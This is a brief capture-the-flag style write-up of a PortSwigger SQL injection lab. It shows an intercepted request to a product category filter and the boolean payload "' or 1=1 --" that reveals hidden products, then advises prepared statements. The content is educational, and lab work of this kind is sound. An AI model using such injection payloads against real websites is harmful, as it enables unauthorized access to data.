

---

- 🎯 **Target:** PortSwigger SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📁 **Category:** Web - SQL injection (Boolean-Based)
- 📊 **Difficulty:** APPRENTICE

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**


> It's work.

> **Note** this works because `OR 1=1` always returns `true`; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**


## conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

